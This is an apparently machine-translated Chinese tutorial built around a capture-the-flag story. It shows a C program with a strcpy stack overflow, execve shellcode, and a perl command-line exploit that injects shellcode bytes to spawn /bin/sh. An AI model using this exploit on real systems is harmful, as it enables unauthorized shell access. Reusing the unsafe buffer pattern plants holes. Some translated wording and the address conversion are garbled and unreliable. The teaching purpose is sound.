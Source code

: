 # 欢迎工作凯尔！

> 原文：<https://dev.to/terceranexus6/welcome-at-work-kyle-2148>

你好。今年夏天，我一直在做几个项目，但在此期间，我练习了一点关于利用 Linux 作为网络安全热身的一部分。我甚至和我的乳齿象追随者们分享了一个开发挑战。我想你们可能会觉得有趣，所以我决定写一下。

## 简介

首先，Linux 在剥削什么？哦好吧。当我们谈到“利用”时，我们的意思是利用漏洞来危害系统，进入系统。在这种情况下，我将重点放在 Linux 上。在这种特定情况下，强烈建议熟悉 Linux 系统、Perl、C 和汇编。我们开始吧。

## 堆栈溢出

我们都很熟悉这个术语，因为我们中的许多人都通过查看[页面](https://stackoverflow.com/)来解决我们的编程疑惑。但在此之前，是一个不正确的缓冲区处理造成的编程噩梦。在 80 年代后期，“网络蠕虫”(基于这种方法)搞乱了成千上万的计算机。尽管现在这种攻击不常见，但在某些情况下仍然有效。为了解释最基本的情况，我将向[介绍我为乳齿象挑战赛制作的故事](https://gitlab.com/terceranexus6/mastodon_challenges/blob/master/2%20-%20Welcome%20at%20work%20Kyle!/story.md)。

Kyle 是一个非常好的 sysadmid，他创建了一个 C 脚本，每天早上都向他致敬。他甚至在 gitlab 上与他的大学分享。他用它来创建和执行主要的 goodmornign 程序。但该公司遭受了一次攻击，攻击始于凯尔的电脑，特工奥菲利娅试图对其进行调查，以拯救凯尔并发现真正的攻击者。凯尔向欧菲莉亚展示了名为*早安*的代码:

```
#include <string.h>
#include <stdio.h>

void func(char *arg) {
  char name[32];
  strcpy(name, arg);
  printf("\nWelcome at work, master %s\n\n", name);
}

int main(int argc, char *argv[]){
  if ( argc != 2 ){
    printf("Use: %s NAME\n",argv[0]);
    //exit(0);
  }
  func(argv[1]);
  printf("Good luck today.\n\n");
  return 0;
} 
```

Enter fullscreen mode Exit fullscreen mode

在这个故事中，Ophelia——被你必须输入你的名字这一事实所触发——在她的计算机上尝试了下面一行:`./goodmorning AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`,它返回一个分段错误。

[![](img/321154083aa8ebf30d052cf94fed1cd9.png)](https://res.cloudinary.com/practicaldev/image/fetch/s---OJp1I-_--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_66%2Cw_880/https://media0.giphy.com/media/NTiyOTkV8a7PXHoNvy/giphy.gif%3Fcid%3D790b76111532d3f558ecc9bc3421c52d79f8736352620110%26rid%3Dgiphy.gif)

这是第一个线索，表明挑战是剥削。为什么会返回分段错误？如果我们看看代码中的“ *name* 字符变量，我们可以看到 Kyle 认为没有人会使用超过 32 个字符的名称。

```
...
char name[32];
... 
```

Enter fullscreen mode Exit fullscreen mode

因此，当使用超过 32 个字符作为参数时(在本例中为`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`)，它将返回该分段错误。这似乎是无害的，但作为一个漏洞可能会扩大到一些重要的东西。如果我们正确理解编程中的内存分配(如果我们特别注意这一点，C 是一种非常好的语言)，我们知道每个单独的内核将一个接一个地执行指令，这就是为什么我们需要 IP 寄存器:在执行中正确地组织指令。当执行一个 Linux 程序时，它在内存中有一个按区域划分的结构。这可以使用`size`进行检查。反正！现在让我们跳到汇编。我们将重点关注 EBP(帧指针)和 EIP(指令指针)，它们指向要执行的下一条指令的第一个字节，以及 ESP(堆栈指针)，它们指向堆栈上最近推送的值。现在，如果我们设法改变 EIP，我们将能够操纵程序的流程。然后，我们将引入一种叫做“外壳代码”的东西，或一种进入系统的攻击。我们想执行一个*外壳代码*(十六进制)，在完成之前给我们管理员权限，就像这样:

```
void main(){
 char *name[2];
 name[0] = "/bin/sh";
 name[1] = NULL;
 execve(name[0], name, NULL);
} 
```

Enter fullscreen mode Exit fullscreen mode

回到故事中，特工奥菲利娅通过多次尝试自己制作的一个剧本，得到了 ESP，直到最后得到“0x08048444”。

[![](img/aae006253db5ab1a6f6f1816e75404be.png)](https://res.cloudinary.com/practicaldev/image/fetch/s--A-FeATqR--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_66%2Cw_880/http://giphygifs.s3.amazonaws.com/media/mn0W2gnnzARGg/giphy.gif)

我们可以在 Python 中使用适当的十六进制格式(例如):

```
hexnum = 0x08048444
print(hexnum.to_bytes(4, 'little')) 
```

Enter fullscreen mode Exit fullscreen mode

我们会得到`\x84\x04\x08`。现在我们必须立刻用它来进攻。我们将在易受攻击的“名称”变量中引入攻击，所以，它正常的 *goodmorning* 执行应该是:

```
$ ./goodmorning Kyle 
```

Enter fullscreen mode Exit fullscreen mode

我们将使用:

```
$ ./goodmorning `perl -e 'print "\x31\xc0\x50\x68\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe1\xb0\x0b\xcd\x80"."AAAAAAAAAAAAAAAAAAAAA"."\x84\x04\x08"'` 
```

Enter fullscreen mode Exit fullscreen mode

在这种情况下，我首先接受任何被认为会危及系统安全的脚本，在这种情况下`\x31\xc0\x50\x68\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe1\xb0\x0b\xcd\x80`只是上面的外壳代码。

这样，Ophelia 知道攻击者如何使用 Kyle 的例程来攻击系统，破坏别名，用执行别名的脚本更改别名，但使用外壳代码作为参数。

就这样。就这么定了！希望你们喜欢。